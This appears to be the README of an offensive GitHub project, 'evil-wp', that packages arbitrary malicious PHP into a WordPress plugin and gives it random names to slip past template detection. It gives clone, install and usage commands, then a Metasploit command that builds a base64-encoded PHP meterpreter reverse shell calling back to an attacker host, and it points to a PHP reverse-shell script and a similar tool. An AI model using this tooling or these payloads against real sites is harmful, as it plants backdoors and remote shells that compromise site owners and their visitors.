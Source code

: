 # evil-wp
This is a small project to wrap malicous PHP payloads into a WordPress plugin.

Random name generation is thrown in for fun and a slight attempt at reducing detection by template pattern matching.

## Pre-Requisites
This attack requires the ability to install plugins to the target WordPress installation.

## Installation
To install this simple tool, clone this repository and use pip to install the requirements.

``` bash
$ git clone https://github.com/svespie/evil-wp
$ cd evil-wp
$ pip install -r requirements.txt
```

Consider using a virtual environment as a matter of best practice.

## Usage
``` bash
$ python evil-wp.py -h
$ python evil-wp.py -n <plugin_name> -p "<payload>"
```

* the plugin name should be unique to the installation being attacked
* the payload can be any valid PHP code


## Example Payload Generation
msfvenom is a great place to start with for generating PHP payloads.

``` bash
$ msfconsole -p php/meterpreter/reverse_tcp LHOST=<attacker_host> LPORT=<listening_port> -e php/base64 -f raw
```

Any valid PHP will work, including traditional PHP reverse shell payloads such as this one: https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php.

Note: the payload is inserted into a PHP template. There is no need to include PHP opening and closing tags.

Good luck!

## Similar Projects
* https://github.com/wetw0rk/malicious-wordpress-plugin/blob/master/wordpwn.py (a nifty tool that automates meterpreter use but with less payload flexibility)